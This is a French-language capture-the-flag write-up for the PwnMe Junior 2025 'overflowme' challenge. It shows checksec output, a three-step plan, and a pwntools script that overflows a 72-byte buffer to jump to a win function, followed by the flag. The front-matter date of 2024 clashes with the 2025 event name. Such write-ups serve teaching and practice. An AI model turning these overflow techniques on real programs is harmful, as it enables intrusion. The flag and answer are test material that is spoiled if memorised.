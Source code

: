 ```yaml
---
title: "PwnMe Junior 2025 - overflowme WriteUp"
date: 2024-04-14
description: "WriteUp du challenge overflowme du CTF PwnMe Junior 2025"
tags: ["pwn", "buffer-overflow", "ctf", "pwnme"]
categories: ["pwn"]
---
```


# PwnMe Junior 2025 - overflowme WriteUp

## Description du challenge
Le challenge overflowme est un exercice de buffer overflow sur un binaire 64 bits. Le programme attend une entrée utilisateur et contient une vulnérabilité qui permet d'écraser l'adresse de retour.

## Analyse du binaire

### Vérification des protections
```bash
$ checksec overflowme
[*] '/home/synapse/pwnme-junior-2025/pwn/overflowme/overflowme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Exploitation

### Plan d'attaque
1. Envoyer "5" comme première entrée
2. Overflow du buffer avec un offset de 72 bytes
3. Écraser l'adresse de retour avec l'adresse de la fonction win (0x401417)

### Script d'exploitation
```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

def main():
    p = remote("127.0.0.1", 1337)
    
    p.sendline(b'5')

    offset = 72  
    payload = b'A' * offset
    payload += p64(0x401417)  
    
    # Envoi du payload
    p.sendline(payload)
    p.interactive()

if __name__ == '__main__':
    main()
```

## Flag
```
PWNME{JUNIOR_OVERFLOW_MASTER}
```

## Conclusion
Ce challenge était un exercice classique de buffer overflow. Les points clés étaient :
- Identification de l'offset correct (72 bytes)
- Utilisation de l'adresse correcte de la fonction win (0x401417)
- Configuration correcte de la connexion remote sur le port 1337 
